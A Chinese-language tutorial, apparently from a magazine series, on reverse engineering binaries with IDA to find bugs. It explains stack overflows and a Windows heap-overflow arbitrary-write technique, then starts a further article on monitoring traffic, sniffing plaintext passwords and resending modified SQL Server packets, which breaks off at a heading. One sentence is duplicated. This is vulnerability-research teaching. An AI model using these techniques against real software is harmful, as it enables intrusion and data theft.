逆向技术是一个历史久远的概念，正如同它的名字，逆向技术就是按照事物相反的方向去寻找答案。我们这里所要说的逆向技术只是单纯涉及软件的逆向，即软件逆向工程。首先看一个问题，为什么软件能被逆向？很简单，因为所有软件都要由计算机来运行，而计算机只懂二进制码，二进制码又可以被翻译成汇编语言，所以我们就能逆向软件。

为什么要逆向软件？这个问题相当复杂，因为人有不同的想法：有些或许是需要知道这个软件某种功能是怎样实现的；有些或许是想要破解掉软件无休止的注册提示；有些则像我们，我们不但要知道软件是怎样工作的，还要从中找出软件的问题所在，这就是一个挑战。

其实简单地把软件逆向工程归纳为“对软件二进制转换成汇编语句”是不大恰当的，因为软件逆向工程中不但包括将二进制程序转化为汇编代码的反汇编技术，还有反编译技术。如何能够进行软件逆向工程，这有很多的要求，最基本的是你要会汇编语言，接着是懂得编程。倒不要求你编程有多厉害，但是越熟练越好，因为这将帮助你整理在逆向分析代码时的基本逻辑。

“逆向练习.exe”反汇编后的结果。如果你不是很懂汇编语言，没关系，我们在这里进行一次“基础教育”；反之，如果你很熟悉它，那么就当作是一个温故而知新的过程。


图1

这里提供一个名叫“逆向练习.exe”的程序作为例子，我们将这个程序用 IDA 打开，如图 1 所示。图片左侧的是地址，中间的代码就是对程序开始部分使用了一系列的 push 语句，其实就是一个最基本的程序进入函数后的准备：将这些 ebx 等寄存器的内容保存下来，以后等函数主体执行完程序要返回时，再将这些保存的寄存器内容全部返回，也就是后面的那些 pop 语句的作用。只有这样才能保证程序在调用函数后不会破坏自己在内存中的状态。

既然进入了一个函数，那么这个函数名称在哪里呢？我们从第一个 push 语句“push ebp”向上看，在地址 00401010 处的代码是“main proc near”，这一句清晰地告诉我们此处的函数名为 main。因为每一个可执行程序都有一个主函数，可执行文件进入内存后就会找到主函数来执行，这个主函数对命令行式的程序来讲就是 main 函数。

接下来注意看 call 语句，这就是汇编语言中调用函数的指令，而后面的“printf”就是我们要调用的函数名称。有了函数名称，还要知道这个函数需要哪几个参数，那么参数又从哪里判断呢？一般来说，如果程序 call 指令调用的函数是已知的，例如这里的 printf 函数是一个 C 语言库函数，我们可以在 C 语言库文件中找到这个函数的原型定义“int __cdecl printf(const char *, ...)”。有了这个定义，就可以根据该函数最原始的定义找出被调用函数的参数个数，这样会更加方便我们查找参数。

现在回到 IDA 的主窗口上，慢慢从 call 语句向上看，可以看到一个 push 语句，这就是 printf 函数的一个参数，意思是把一个参数传递给下面的 printf 函数。一般来讲，在调用函数的时候，我们必须要先将函数所需要的参数压入栈中，这样函数才能获得所需要的参数，而这些压栈语句就是汇编中的 push 指令。函数的参数一般是由紧接着 call 指令的 push 语句来指定的。

有了函数，有了参数，我们能不能获得更多内容呢？IDA 的强大性就在于自动分析程序的流程。从灰色的部分我们可以看到，其实传递给 printf 函数的参数具体值就是“Hello To Software Reverse Engineering!”这段字符串。通过简短的分析，现在我们完全可以写出这个程序是怎样实现的代码了。用 C 语言将这个程序的流程表示一遍，就可以得到如下代码：

```c
void main()
{
    printf("Hello To Software Reverse Engineering!");
}
```

对比一下我随文提供的原始代码，你会发现逆向出的代码与原始代码有惊人的相似。从上面的例子我们看出，在没有原始代码的情况下，通过逆向技术完全有可能再现出程序本身的代码实现过程。回到我们在 Fuzzing 一文中提到过的那个例子，如果目标程序中的原始代码是这样的：

```c
if (Something=="you can go") {
    char des[100];
    strcpy(des, ourdata);
}
```

那么它在 IDA 的表现应该是如图 2 所示。通过 IDA，我们可以看到在两个带箭头的线的上方，有一个指令“jnz short loc_40103A”，它是一个跳转指令，该跳转指令根据判断语句的结果进行相应操作。如果判断结果是不等于则跳转，等于就不跳，那么在这个指令的上方就是跳转指令的判断语句，判断语句是“cmp dword ptr [eax+4], offset aYouCanGo; "you can go"”。

这句判断语句的意思是判断 [eax+4] 指向的内容是不是等于“offset aYouCanGo”。先解释一下“offset”，英文字面意思就是偏移的意思。根据 Windows 下一个可执行文件的结构规定，凡是涉及全局数据的，全部应放入可执行文件的数据段。这个段是一个可读可写但不可执行的段，如果程序某处代码需要这个全局数据，则可以通过查找该数据在数据段的偏移来获得想要的全局数据，所以这里使用了 offset。

aYouCanGo 是一个标志，通过偏移我们找到了一个全局数据，这个数据用来比较 [eax+4]。 [eax+4] 中的内容我们无从分析，但是全局数据我们却可以知道，IDA 直接将全局数据展示给了我们。注意看判断语句分号后面的一段字符“you can go”，这不就是我们代码中出现的那个 if 判断中的变量吗？

通过 IDA，我们完全可以在对目标程序的逆向分析中找到这个判断，进而知道目标程序一些苛刻的限制条件，将绕过这些苛刻限制条件的情况加入到 Fuzzing 中，就可以有效地避免 Fuzzer 本身“不能自动分析思考”的缺陷。


逆向技术是非常神奇而又枯燥的一门技术，它需要你长期不断地进行逆向经验的积累，在那些艰涩难懂的汇编代码中分析出程序的运行流程。有时有些程序就算给我们原始代码，我们都很难看懂，更何况“逆向行驶”呢？

并且针对不同语言编写出的软件，我们不能一味使用 IDA 去做反汇编工作，我们要结合语言本身的特点来实现更好的逆向工程，也就是说可以使用一些反编译技术。为了方便大家学习，我这里对常见语言的逆向做一个分类。

对于 C 语言、VC++，我们可以借助 IDA 这个多平台的反汇编工具进行逆向，因为 IDA 不仅可以用于 Windows 下，还可以运行在 Linux 以及 Mac 系统下。对于 .Net 编写出的软件，我们可以先将其转换成它自己的汇编形式语言：MSIL。这种汇编形式的语言能够更好地显示出 .Net 编写出的软件结构。

我们这里作一个演示：先用 W32dsm 反汇编 .Net 编写的一个小程序，结果如图 3 所示，依旧是晦涩难懂的汇编语句。现在再使用 IDA（IDA 支持 MSIL），结果如图 4 所示。那些本来晦涩的汇编乱码不见了，取而代之的几乎是原始代码语句。这里我们清晰地看出了这个 .Net 程序中有一个类，类名为 Discuz.Cache.DNTCache，结构清晰明了，我们不费什么力气就能明白程序要做什么、怎么做。面对如此直白的语句，我们发掘漏洞岂不是变得异常简单？


图4


图3

同样，针对 VB、Delphi、Java 这 3 类语言也有专门的反编译软件，可以更好地按照结构来显示软件流程。

## 逆向技术分类

### 1）程序流程逆向

程序流程逆向是指针对所要逆向的程序，对其某一功能的具体实现或者对程序整个运行过程进行逆向分析，从而获得相关信息。程序流程逆向可以说是软件逆向工程中使用最为广泛的分类，这也应该是软件逆向工程最原始的目的了。

程序流程逆向包含很多方面，例如逆向分析程序中某一个函数的调用是如何实现的，或者分析出这个函数内部是如何具体编写的；逆向获得系统中未公开的函数结构等等。对于小型软件来说，逆向几乎成为一个杀手锏，因为通过耐心的逆向分析完全能够获取到软件实现的全部信息。对于大型软件来说，逆向将揭示软件内部的结构，如果再结合一些别的相关信息，我们就完全可以再现软件的功能。

这里演示一个逆向 Windows 系统中一个类函数“CFileFind::FileFind”来作为对程序流程逆向技术的直观理解。

CFileFind::FileFind 是在 MFC 编程中经常遇到的一个函数，其作用是查找文件。由于 MFC 的封装特性，我们很难知道这些函数究竟具体是怎样实现的，为此我们打算利用逆向技术来获得想要知道的信息。

首先使用 IDA 载入要分析的文件“MFC42D.DLL”，我们要分析的类函数“CFileFind::FileFind”是在这个库文件中实现的。在 IDA 的“name”一栏找到“CFileFind::FileFind”，双击来到这个类函数实现的地方。此时可以发现这个函数反汇编出来的代码比较长，但是 IDA 已经使用不同的颜色为我们分析出了函数实现的一个基本流程，其中红色的箭头代表跳转失败时要去执行的地方，绿色箭头代表跳转成功要去执行的地方。

我们先来分析进入函数后的第一个部分，其代码如下：

```asm
push    ebp
mov     ebp, esp
sub     esp, 1Ch
push    ebx
push    esi
push    edi
mov     [ebp+var_1C], ecx
mov     ecx, [ebp+var_1C]
call    CFileFind__Close
push    140h
call    ??4CString@@QAEABV0@ABV0@@Z
add     esp, 4
mov     [ebp+var_18], eax
mov     eax, [ebp+var_1C]
mov     ecx, [ebp+var_18]
mov     [eax+8], ecx
mov     edx, [ebp+var_1C]
mov     dword ptr [edx+10h], 0
cmp     [ebp+lpFileName], 0
jnz     short loc_5F402CDC
mov     [ebp+lpFileName], offset a__ ; "*.*"
```

程序在进入函数后先进行一系列的 push 动作，目的是为了保存初始数据，以便函数返回后恢复程序流程。接着是一个 call 指令，这个 call 指令的对象是 CFileFind__Close。IDA 由于带有一定的自动分析功能，它可以将已知函数变成符号表，可以在被分析代码引用某些外部函数时，直接显示出这些引用函数来自哪个库文件，所以 CFileFind__Close 就代表着这里引用了 CFileFind 库中的 Close 函数，这其实是 CFileFind 库中另外的一个类函数。由于我们分析的类函数就属于库文件 CFileFind，所以我们可以简写这个函数引用为 Close()。

接着分析，函数在调用完 Close 函数后，使用了“push 140h”。单纯分析这句代码，意思是将 140h 这个数据压栈。随后代码又使用了一个 call 指令，这下我们明白了，原来前面的这个“push 140h”语句是为下面的 call 指令压入一个参数，所做的就是产生一定长度的字符串。这意味着“CFileFind::FileFind”函数在这里开辟了一个 140h 大小的栈空间。

我们一时还难以判断这个空间是干什么用的，先继续往下看。“mov dword ptr [edx+10h], 0”是一个典型的赋值语句，就是对 [edx+10h] 这块内存区域赋值为 0。根据上面的一句代码“mov edx, [ebp+var_1C]”，发现 edx 是来自一个局部变量的赋值，那么可以肯定这个 0 一定是赋值给了某一个局部变量（其实这应该叫做类中的属性），我们暂时记为 BL = 0。

这里要提示一下，IDA 在自动分析代码时，凡是函数参数，一般会使用 arg[x] 这样的形式来代表，而 var_x 这样的形式则一般代表局部变量。接着看“cmp [ebp+lpFileName], 0”非常明显，这句指令是一个判断指令，判断的对象就是传递进 FindFile 函数的文件名参数是不是空的，我们记做“if filename == NULL;”。下面就是要根据判断结果跳转了，如果跳转成功，也就是说文件名参数是空的，那么函数为了使文件名参数不为空，就要进行一个重新赋值操作，于是函数将文件名参数赋值为“*.*”。这个值是一个通配符表达式，其中 * 号代表全部的意思。

```asm
mov     eax, [ebp+lpFileName]
push    eax ; lpString2
mov     ecx, [ebp+var_1C]
mov     edx, [ecx+8]
add     edx, 2Ch
push    edx ; lpString1
call    ds:__imp__lstrcpyA@8 ; lstrcpyA(x,x)
mov     eax, [ebp+var_1C]
mov     ecx, [eax+8]
push    ecx ; lpFindFileData
mov     edx, [ebp+lpFileName]
push    edx ; lpFileName
call    ds:__imp__FindFirstFileA@8 ; FindFirstFileA(x,x)
mov     ecx, [ebp+var_1C]
mov     [ecx+0Ch], eax
mov     edx, [ebp+var_1C]
cmp     dword ptr [edx+0Ch], 0FFFFFFFFh
jnz     short loc_5F402D32
```

这段代码刚开始很简单，就是调用 lstrcpyA 进行一个字符串拷贝，字符串的来源是传递的文件名参数。目的呢？我们注意这个地方，edx 是目的地址，但 edx 的值来自于 [ecx+8]，而 ecx 是由 [ebp+var_1C] 赋值。回到第一部分，我们看到在分配完空间后 eax 指向的地址赋给了 [ebp+var_18]，而后面 [ebp+var_18] 将值又赋给 ecx，这期间 [ebp+var_1C] 赋值给 eax，那么在执行“mov [eax+8], ecx”指令时，其实分配的空间地址就赋值到了第二部分的 edx 处。

这个时候我们终于明白了，原来前面分配的空间有一部分给了对文件名参数的拷贝，我们可以记下这段代码为“lstrcpy(space, filename);”，其中 space 暂时代表前面分配的空间。后面就是调用 FindFirstFile 来进行首次查找。如果查找出错，或者没找到，函数就要再一次跳转，我们先来看看这段代码：

```asm
call    ds:__imp__GetLastError@0 ; GetLastError()
mov     [ebp+dwErrCode], eax
mov     ecx, [ebp+var_1C]
call    CFileFind__Close
mov     eax, [ebp+dwErrCode]
push    eax ; dwErrCode
call    ds:__imp__SetLastError@4 ; SetLastError(x)
xor     eax, eax
jmp     loc_5F402E10
```

很简单不是吗？利用 GetLastError() 函数获得出错时的出错码，然后使用 CFileFind__Close 函数关闭本次查找，最后显示出错码，直接跳到函数末尾，准备返回 0（注意 eax 被清 0，因为使用了“xor eax, eax”这条异或指令）。

如果不出错，或者找到了呢？我们看这段代码的实现：

```asm
push    104h
mov     ecx, [ebp+var_1C]
add     ecx, 14h
call    CString__GetBufferSetLength
mov     [ebp+var_8], eax
push    104h ; size_t
mov     ecx, [ebp+lpFileName]
push    ecx  ; char *
mov     edx, [ebp+var_8]
push    edx  ; char *
call    ds:__imp___fullpath
add     esp, 0Ch
mov     [ebp+var_4], eax
```

函数首先利用 GetBufferSetLength 函数开辟出一个长度为 104h 大小，也就是 260 字节的空间，将这个空间传递给 fullpath 函数，从而获得被查找到文件的完整路径，以便后面将这个路径用来返回。函数到此并没有完，再接着分析第三部分。

```asm
push    5Ch
mov     ecx, [ebp+var_8]
push    ecx ; unsigned __int8 *
call    _tcsrchr
add     esp, 8
mov     [ebp+var_14], eax
push    2Fh ; unsigned int
mov     edx, [ebp+var_8]
push    edx ; unsigned __int8 *
call    _tcsrchr
add     esp, 8
mov     [ebp+var_10], eax
cmp     [ebp+var_10], 0
jnz     short loc_5F402DD0
```

这段代码是什么意思呢？我们注意看 5Ch 是 `\` 的十六进制表示，2Fh 则是 `/` 的十六进制表示，函数为什么要对这两个字符做查找工作呢？这主要是为了能够将查找到的文件名组合完整，因为对于 Windows 系统还有“//12.1.1.1/c”这样的网络共享目录格式存在。之后的代码就非常简单了，无非是返回一个 True 告诉调用者“我们找到文件了！”这样的信息。

整理一下我们前面逆向出的信息，可以得到下面的代码：

```cpp
Call Close();
space = buf[320];
BL = FALSE;
if (filename == NULL)
    filename = "*.*";
lstrcpy(space, filename);
result = FindFirstFile(filename, XXX);
if (result == error) {
    GetLastError();
    CFile::Close();
    SetLastError(dwTemp);
    return FALSE;
}

XXX = XXX.GetBufferSetLength(MAX_PATH);
XXX = _tfullpath(pstrRoot, pstrName, MAX_PATH);
if (XXX == NULL) {
    m_strRoot.ReleaseBuffer(-1);
    Close();
    SetLastError(ERROR_INVALID_NAME);
    return FALSE;
} else {
    ...
}
```

```cpp
XXX = _tcsrchr(pstrRoot, '\\');
XXX = _tcsrchr(pstrRoot, '/');
XXXXXX;
return TRUE;
```

上面的代码中，XXX 的部分是我们还不能确定的地方，暂时把它放下，这不影响我们对 CFileFind::FileFind 这个函数整体上的理解。通过逆向分析，现在已经完全可以明白 CFileFind::FileFind 是怎样工作的了。或许你想要确定下逆向是否准确，此时可以去查找 VC6++ 中 MFC 的头文件，在文件 FileFind.cpp 里会有 CFileFind::FileFind 完整的原始代码。你会发现，我们写出的代码与 CFileFind::FileFind 原始代码几乎是一样的。

程序流程逆向是有一定规律的，这种逆向技术就是将编译器的工作由人来翻译一遍，因为编译器是将代码转换为程序，而我们要做的就是将程序转换为代码。不同的编译器对代码最后在程序里的安排是不一样的，所以我们在进行程序逆向时，还必须要注意被分析的程序是由什么编译器编译的，不然我们可能会发生错误的逆向分析结果。还有的时候，我们要注意程序开发语言的不同也会造成逆向分析上的差别，例如 C 语言中没有类的概念，而 C++ 中就有类的概念，这两种语言开发出来的程序在反汇编中的表现就会有很大差别，所以说程序逆向技术是一种对个人能力与经验的双重考验。

### 2）数据格式逆向

数据格式逆向是指针对程序中要使用的数据进行格式分析，从而建立起该数据的原始模型。这些数据包括未公开的文件格式、网络协议等。之所以去揭示这些数据原始的格式，是因为有的时候我们如果要编写相同功能的软件，必须要明白这些来自外部的数据该如何处理。例如你要写一个对 Word 文档进行编辑修改的软件，在不使用微软提供的接口库时，你必须要知道 Word 文档的基本格式，它由哪些部分组成，各个组成中的数据又代表什么意思，不然你会无从下手。

数据格式逆向是一个非常重要的逆向分类，尤其对于功能性软件开发人员来说。为了开发同种功能的软件，开发人员不得不去研究那些未知的文件格式或者协议格式，以便能达到同种功能。这在 Office 文件阅读器的开发上体现得尤为明显。

那些未知的文件格式或者协议格式，以便能达到同种功能。这在 Office 文件阅读器的开发上体现得尤为明显。

### 3）算法逆向

准确地说，算法逆向属于程序流程逆向的一种，但是为什么我们要把它单独列成一类呢？原因在于我们实际的软件逆向工程中，大部分的工作都是为了破解一个软件的算法而宁可花费大量时间来逆向软件的。说得更简单一点，这其实就是 Cracker 们做的事情，研究算法的目的就是为了破解软件的注册功能。这是一件非常具有挑战性的工作，需要逆向者有出色的编程功底以及对算法实现的了如指掌。

我们这里要讲到的算法逆向其原理跟 Cracker 的一样，就是对软件本身实现的算法进行逆向分析，从而知道加密算法。不过我们还需要找出解密算法，因为我们主要是想知道软件加密的信息是不是机密程度很高，如果这些机密被软件本身泄漏，而我们又能找到破解这种加密算法的解密手段，那么就会造成可怕的信息泄漏漏洞。所以，算法逆向也成为我们要掌握的一门关键技术，虽然我们并不是为了获得注册码。

## 逆向技术在发掘漏洞中的使用

逆向技术也许是在发掘漏洞过程中使用频率最高的方法了。逆向技术可以为我们将程序中那些隐藏较深、不易察觉的漏洞显示出来，而对于那些简单的、显而易见的漏洞，我们则可以通过一些编写好的逆向工具发掘出来。常见的软件漏洞包括缓冲区溢出、拒绝服务、信息泄漏、格式化串漏洞、off by one、限制绕过式漏洞（bypass）等，这些都可以利用逆向技术来发现。例如信息泄漏式漏洞，这种漏洞也许在 Fuzzing 中很快就会发现，但是在逆向中，我们就必须仔细分析机密信息在程序中传递的流程，所以逆向技术在这个时候作为一个对加密信息寻找解密算法的方法更为恰当。还有 off by one 这种漏洞，就是由于数组下标是从 0 算起的，编程者往往没注意这一点，还是按照从 1 算起，则会出现多覆盖了一位的情况。我们看下面的演示代码。

```cpp
char Buf[100];
for(i=0; i<=100; i++)
{
    Buf[i]='A';
}
```

因为循环是从 0 开始算起，上面的代码判断 `i<=100` 就一直赋值给 Buf，这样就赋值了 101 次，那么 Buf 的最后一位被多覆盖了一次，问题就产生了。这样的情况在原始代码中表现得非常明显，很容易被我们发现。但是放到逆向中，就不是那么简单的事情了。所以，这里我们主要谈谈在逆向技术下如何发现缓冲区溢出以及拒绝服务式漏洞的具体方法，其他漏洞我们将使用别的技术来发掘。

### 1）可怕的溢出漏洞

逆向分析缓冲区溢出漏洞前，我们先学习一些关于缓冲区溢出的原理知识，这有助于我们在今后的学习中，能更加深刻理解和发现此类漏洞。最开始的部分就是对程序的栈以及堆有一个直观了解。简单地说，栈就是一个先进后出的空间……对于堆来讲，则与栈恰恰相反，它是一个先进先出的空间……这里我们用图 5 来表示栈溢出发生的时候，程序运行时内存中的情况。

| 左侧（正常） | 右侧（溢出后） |
|---|---|
| Lower Addresses ↑ | Lower Addresses ↑ |
| buf2 | buf2 |
| buf1 | buf1 - 41414141 |
| var3 | 41414141 |
| saved %EBP | 41414141 |
| return address | 41414141 (return address) |
| function()'s arguments | 41414141 |
| saved %EBP | saved %EBP |
| return address | return address |
| main()'s arguments | main()'s arguments |
| Higher Addresses ↓ | Higher Addresses ↓ |

图 5

左边是一个程序正常运行时候的内存分布，内存的高端部分是函数从被调用函数返回时需要的地址，而内存低端部分则是被调用函数的两个要使用的缓冲空间：buf1 和 buf2。

我们作一个解释，因为这里被调用的函数是 strcpy，它是一个字符串拷贝函数，这个函数有两个参数，其中 buf2 代表来源字符串，buf1 代表目的空间。strcpy 函数的目的就是要把 buf2 中的字符串全部复制进入 buf1 代表的空间。就像前面举过的例子，buf2 就是我们要放的苹果，buf1 就是木桶。现在我们如果将 buf2（来源字符串）弄得很长……程序的返回地址被覆盖成 41414141，程序返回时就会跳转到非法地址而出错。若将恶意代码地址覆盖到返回地址上，程序溢出返回后就会跳到我们的代码并执行，从而被控制。

### 2）如何在逆向中发掘溢出漏洞

那么如何在逆向代码中寻找一个分配栈或者堆的起始点呢？一个程序内部的空间分配操作，其实跟编译这个程序的编译器有着很大的关系。在传统的 VC6 以及 GCC 编译环境中，一般来说 ebp 寄存器常常用来负责栈的操作，它往往指向前一个栈的末尾、新栈的开始，所以我们可以注意所有对 ebp 寄存器的操作代码，而这些代码一般又会像这个样子……

```asm
push ebp        // 保存前一个栈指针到栈里
mov ebp, esp    // 将新的栈指针传递给 esp 寄存器
sub esp, 5Ch    // 为局部变量开辟 5Ch 大小的空间
```

当在逆向中发现这些敏感代码的时候，我们就知道一个新的栈空间被开辟出来了，就要对这个栈做更进一步地分析。找到空间分配，接下来最重要的分析就是对那些容易出现溢出漏洞的敏感函数进行查找，因为正是一些操作缓冲空间的函数，在不安全的使用下才会导致溢出漏洞。

在使用 C 语言库中，`memcpy`、`strcpy` 这些常常引发溢出的函数，它们是首先要查找的目标。但在一般情况下，这些函数会被编译器做一个优化，目的是为了更快速地执行字符串的拷贝工作，这就意味着 `memcpy`、`strcpy` 函数不会直接明显地以函数名称出现在逆向代码中。对于 `strcpy` 函数来说，它在逆向中的代码显示应该是下面这个样子：

```asm
mov    esi, edi
mov    edi, [esp+8+arg_0]
shr    ecx, 2
rep movsd
mov    ecx, eax
and    ecx, 3
rep movsb
```

此时，`esi` 寄存器指向的是来源字符串，`edi` 则是目的地址，然后使用指令 `shr ecx,2` 每次移动四个字节到目的地址，这样就可以高效地完成字符串拷贝工作。同样的代码也会出现在 `memcpy` 函数的逆向中。

与此相同的是函数 `strlen`，它常常也会出现在字符串操作中，它对我们发掘溢出漏洞有着判断来源数据大小的作用。在判定一个缓冲区操作是不是导致了溢出时，可以利用这个函数来获得数据长度，然后就可以与开辟空间的大小进行比较，如果大于开辟空间，就可以肯定这是一个溢出漏洞了。如果不理解这个函数的逆向，我们就无法知道如何判断溢出的细节。但是这个函数也会被编译器做优化，我们来看一下它优化后的逆向代码。

```asm
mov edi, [esp+8+arg_4]
or ecx, 0xffffffff
xor eax, eax
repne scasb
not ecx
dec ecx
```

这段指令的意思就是对 `edi` 地址指向的字符串进行扫描，不断地判断现在取到的字符是不是 `0x00`，也就是 `NULL` 字符，然后递减 `ecx`，直到结束，接着做一个 `not` 操作，使得 `ecx` 成为正确的字符串长度值。这样我们只要注意到 `ecx` 的值是不是大于程序开辟的空间大小，就知道程序存不存在溢出漏洞了。

虽然我们知道了怎样判断目的空间的大小、来源数据的大小，以及那些敏感的容易产生溢出漏洞函数的逆向查找，但是我们还需要知道目的空间在什么位置，或者说我们必须知道目的空间是不是用来承载我们的过长数据，如果不是，那么就不会发生溢出现象；如果是，我们就会成功地从逆向中发掘出一个溢出漏洞。举个例子，对于 `strcpy` 函数来说，它的原型是 `strcpy(des,src)`，那么我们可以直观地看到第一个参数是目的空间，第二个参数是来源数据，但是这是在有原始代码下看到的，在逆向中这又怎样判断呢？参考下面的代码：

```asm
lea eax, [ebp-14h]
push eax
lea ecx, [ebp-0Ch]
push ecx
call strcpy (00401060)
add esp, 8
```

`call` 指令准确地用函数名称显示出它所要调用的是 `strcpy` 函数，而 `strcpy` 函数的两个参数来自于在 `call` 指令上面的两个 `push` 语句。这里注意一下参数的压栈顺序，在 C 语言模式下，参数的压栈是先压最后的，再压前面的参数，也就是说对 `strcpy` 函数来讲，先压的是 `src`，后压的是 `des`。此时，你就知道了目的地址的代表是后压的那个值，我们只要找到程序分配的空间地址是不是传递给这个值，再加上前面对来源数据长度的判断，就能准确知道是不是目的地址的空间小于我们要放进的数据大小，溢出漏洞是不是已经出现了。

对于堆溢出来说，我们需要注意那些 `new`、`malloc` 函数出现的地方，因为这两个函数一般是用来进行堆空间分配的。同样，我们还是按照判断来源数据大小、堆地址、堆大小来发掘堆溢出漏洞，而这些判断和栈的基本一致。

讲到堆的管理，每当程序使用 `new` 或者 `malloc` 函数向系统中申请堆空间时，系统都会将所有分配的堆进行统一管理，这样做的好处是合理管理堆的释放或者使用，不浪费空间。Windows 下管理堆的结构是一个 8 字节的结构，位于被管理堆空间的前面，整个堆的样子类似下面的表示：

堆一的管理结构（8bytes） | 堆一真正可操作空间 | 下一个空闲堆的管理结构（8bytes） | 两个双链表指针（8bytes）

可以看出来，每一个堆与另外的堆都是紧密相连的，一旦其中一个堆出现问题，就会引发程序出现严重错误。堆的溢出形式有很多种，我们这里主要分析其中一种。首先来分析一段堆溢出的反汇编代码。

```asm
push ebp
mov ebp, esp
sub esp, 0A4h
push ebx
push esi
push edi
lea edi, [ebp+var_A4]
mov ecx, 29h
mov eax, 0CCCCCCCCh
rep stosd
mov ecx, 16h
mov esi, offset aAaaaaaaaaaaaaa ; "aaaaaaaa...bbbbbbb"
lea edi, [ebp+var_64]
rep movsd
movsw
movsb
push 20h
call malloc ; 程序开始申请第一个堆，这个堆的大小是20h，也就是32个字节
add esp, 4
mov [ebp+var_4], eax
; 将申请的堆赋值给局部变量var_4
push 30h
lea eax, [ebp+var_64]
push eax
mov ecx, [ebp+var_4]
push ecx
call memcpy ; 注意看这个memcpy函数...
add esp, 0Ch
push 10h
call malloc ; 申请第二个堆，这个堆的大小为10h，也就是16字节
```

```asm
add esp, 4
mov [ebp+var_8], eax
mov edx, [ebp+var_4]
push edx
call free ; 释放堆一
add esp, 4
mov eax, [ebp+var_8]
push eax
call free ; 释放堆二
add esp, 4
xor eax, eax
pop edi
pop esi
pop ebx
add esp, 0A4h
cmp ebp, esp
call __chkesp
mov esp, ebp
pop ebp
retn
```

从注释我们看出，在给 buf2 完成 malloc 之后，buf1 指向的内存分配情况是这样的：

buf1 的管理结构（8bytes） | buf1 真正可操作空间（32bytes） | buf2 的管理结构（8bytes） | buf2 真正可操作空间（16bytes） | 两个双链表指针（8bytes）

现在如果在 buf2 分配空间之前，buf1 的 memcpy 操作溢出，并且覆盖了“下一个空闲堆的管理结构（8bytes） | 两个双链表指针（8bytes）”共 16 个字节的时候，就会造成 buf2 在进行堆分配时操作异常。

由于 Windows 系统实现堆空间分配的代码是“MOV [ECX],EAX；MOV [EAX+04],ECX”，此时 ECX 指向两个双链表指针（8bytes）的后一个指针，EAX 指向前一个指针。而这两个指针就是我们的局部变量 var_64，也就是说是我们可以控制的，这样就可以写任意数据到任意地址，从而劫持程序的运行流程。这种堆溢出的前提是在 buf2 分配空间之前 buf1 有溢出的机会，这也是比较常见的一种堆溢出方式。

从上面的内容可以看出，逆向技术在挖掘缓冲区溢出漏洞以及拒绝服务漏洞方面有着自己独特的方式，逆向技术要求使用者要熟悉汇编语言，有着清晰的逻辑分析能力。虽然通过逆向技术分析出程序的漏洞是一项比较辛苦的工作，但是掌握这门技术绝对是成为一个“黑客高手”的必由之路。

前置知识：无

关键词：漏洞、监视技术、补丁比较

# 黑客漏洞发掘技术内幕系列之十

**监视这东西**

**补丁比较技术**


文/图 爱无言

看到本文的标题，大家一定很疑惑，我们不是一直在分析如何发掘软件漏洞吗？怎么现在却说起了监视技术？这是因为我们可以利用被监视对象自己暴露出的行为或者数据，来获得有用的信息。

每一个运行的软件，都会有自己的一些“行为”，例如一个文本处理软件，它要工作，就必须先打开一个等待处理的文本文档，这就是一个“行为”。又例如 Windows 要自动更新，那么就必须要使用一个网络对话，利用自己的 Automatic Updates 服务程序去执行更新操作，这些都是软件行为。软件的行为正如同人的行为，它们能够暴露出软件的目的，软件想要做什么，这些信息可以帮助我们推断这个行为是不是合理，会不会产生什么不良现象，甚至说是漏洞。

除去软件行为，我们利用监视技术还能够监视软件与软件之间、软件与操作系统之间的数据交换，以及交换的内容。当我们使用 QQ 与好友聊天时，所发出的聊天语句其实都被 QQ 本身加密后利用网络数据包发送到了远程的服务器上，再由服务器发送给朋友。当然，如果在同一个网段内，QQ 则会在传输文件的时候采用直连模式，不再通过服务器来中转想要发给朋友的文件。这些就是软件的数据交换，我们完全可以监视这些交换发生时，软件处于什么状态，还能监视到这些被软件交换的数据包中的内容是什么，从中发现一些有用的信息。

一些著名的网络软件，在数据交换中常常会将用户的密码，甚至是用户资料直接明文放在数据包中。当我们利用监视技术监听到这些数据包时，就完全可以了解用户的使用情况，以及一些隐私，这也是一种泄漏用户信息的漏洞。曾经有一段时间，QQ 密码被破解就是利用了监视技术来分析的。

监视技术可以让我们在获得软件或者系统交换信息的时候，去伪造这些信息。利用伪造的交换信息，我们完全可能发现软件中是不是存在漏洞。Slammer 蠕虫大家可能都知道，它就是利用了 SQL Server 的一个远程溢出漏洞得以扩散的。而这个溢出漏洞就是 Litchfield 发现在 SQL Resolution 服务的包处理例程中有一个 sprintf 调用不严谨，将数据包中的超长字符串直接试图放入一个 128 字节的空间中导致溢出。于是我们可以监听 SQL Server 的这个数据包，修改其中的内容，然后发送给 SQL Server，这样就可以触发这个漏洞了。

总而言之，监视技术是我们在主动发掘漏洞中，换一个思维模式的最好选择。当我们使用逆向或者调试技术发掘漏洞陷入困境的时候，就可以使用一些被动技术，类似监视技术来继续发掘漏洞的工作，或许就会发现更多的信息，而这些信息将会帮助我们重新找到发掘目标。

## 监视技术分类

### 1）文件监视

文件监视是监视中最为传统的一类，主要是针对软件中操作文件的行为以及操作结果进行监视。如果你编写过一些文件操作软件，就会发现在使用 fopen 或者 CreateFile 这些函数的时候，就会引起一个文件操作，所以文件监视其实现的原理，就是将软件中凡是与文件操作有关的函数全部监视起来，并将这些监视反馈给监视者。在已经开发出来的文件监视工具中，Filemon 是一款较为公认的优秀工具。

我们还要强调一个文件类的监视，就是 Windows 下对注册表的监视。很多人一定以为注册表是一个非常复杂的东西，一定不会是一个文件那样简单，其实注册表就是一个文件型数据库，对注册表的一切操作最终是要写入文件中保存的，所以我们将注册表监视归纳于文件型的监视。不过，对于注册表的监视不能再使用文件监视的那些文件操作函数了，不然你还得要进行解码工作，因为注册表保存后的结构比较复杂，最好的方法就是监视所有与操作注册表有关的函数。

对于注册表监视，除了直接使用监视操作注册表的函数方法以外，还可以利用对注册表键值进行对比的方法来被动监视注册表。RegSnap 就是这样一款利用对比方式实现的注册表监视工具。但是，这个方法不利于实时注册表监视，所以一般在进行注册表监视中，可以将其列为辅助监视方式，尤其是在程序对注册表操作不多的情况下，或者是只为分析目标程序对注册表键值删除、添加的时候。

### 2）系统监视

系统监视涉及的范围非常广，因为对于一个系统来说，其内部结构是非常复杂的，例如有进程、线程、信号、中断、管道、共享块、令牌等。对于这里说的每一种，我们都必须要有专门的监视手段。举例来说，在 Windows 下，对于进程我们必须要使用对 CreateProcess 函数的监视，而对于线程就需要对 CreateThread 函数的监视，那些更为复杂的对象，要求你必须对操作系统本身比较了解。

### 3）网络通信监视

